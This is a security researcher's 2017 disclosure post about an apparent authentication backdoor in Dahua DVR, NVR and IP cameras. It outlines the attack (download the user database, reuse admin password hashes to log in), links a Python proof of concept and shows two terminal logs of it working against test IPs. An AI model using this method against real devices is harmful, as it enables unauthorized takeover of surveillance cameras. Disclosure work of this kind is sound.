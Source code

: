 
2017-05-03

Public rerelease of [Dahua Backdoor PoC](https://github.com/mcw0/PoC/blob/master/dahua-backdoor-PoC.py)

2017-03-20

With my newfound knowledge of vulnerable devices out there with an unbelievable number of more than 1 million Dahua / OEM units, where knowledge comes from a report made by NSFOCUS and my own research on shodan.io.

With this knowledge, I will not release the Python PoC to the public as before said of April 5, as it is not necessary when the PoC has already been verified by IPVM and other independent security researchers.

However, I'm open to share the PoC with serious security researchers if so desired, please e-mail me off list and be clear about who you are so I do not take you for a beggar, which I ignore.

NSFOCUS report: http://blog.nsfocus.net/dahua-cameras-unauthorized-access-vulnerability-technical-analysis-solution/

/bashis


[STX]

I'm speechless, and almost don't know what I should write... I (hardly) can't believe what I have just found.

I have just discovered (to what I strongly believe is backdoor) in Dahua DVR/NVR/IPC and possible all their clones.

Since I am convinced this is a backdoor, I have my own policy to NOT notify the vendor before the community.
(I simply don't want to listen on their poor excuses, their tryings to keep me silent for informing the community)

In short:
You can delete/add/change name on the admin users, you change password on the admin users - this backdoor simply don't care about that!
It uses whatever names and passwords you configuring - by simply downloading the full user database and use your own credentials!

This is so simple as:
1. Remotely download the full user database with all credentials and permissions
2. Choose whatever admin user, copy the login names and password hashes
3. Use them as source to remotely login to the Dahua devices

This is like a damn Hollywood hack, click on one button and you are in...


Below PoC you will find here: https://github.com/mcw0/PoC/dahua-backdoor.py
Update:
Dahua has requested me to temporally remove the PoC code, will be back here again 5th April. (30 days)
/Sorry, bashis

Please have understanding of the quick hack of the PoC, I'm sure it could be done better.

Have a nice day
/bashis

$ ./dahua-backdoor.py --rhost 192.168.5.2

[*] [Dahua backdoor Generation 2 & 3 (2017 bashis <mcw noemail eu>)]

[i] Remote target IP: 192.168.5.2
[i] Remote target PORT: 80
[>] Checking for backdoor version
[<] 200 OK
[!] Generation 2 found
[i] Chosing Admin Login: 888888, PWD hash: 4WzwxXxM
[>] Requesting our session ID
[<] 200 OK
[>] Logging in
[<] 200 OK
{ "id" : 10000, "params" : null, "result" : true, "session" : 100385023 }

[>] Logging out
[<] 200 OK

[*] All done...
$

$ ./dahua-backdoor.py --rhost 192.168.5.3

[*] [Dahua backdoor Generation 2 & 3 (2017 bashis <mcw noemail eu>)]

[i] Remote target IP: 192.168.5.3
[i] Remote target PORT: 80
[>] Checking for backdoor version
[<] 200 OK
[!] Generation 3 Found
[i] Choosing Admin Login: admin, Auth: 27
[>] Requesting our session ID
[<] 200 OK
[i] Downloaded MD5 hash: 94DB0778856B11C0D0F5455CCC0CE074
[i] Random value to encrypt with: 1958557123
[i] Built password: admin:1958557123:94DB0778856B11C0D0F5455CCC0CE074
[i] MD5 generated password: 2A5F4F7E1BB6F0EA6381E4595651A79E
[>] Logging in
[<] 200 OK
{ "id" : 10000, "params" : null, "result" : true, "session" : 1175887285 }

[>] Logging out
[<] 200 OK

[*] All done...
$

[ETX]
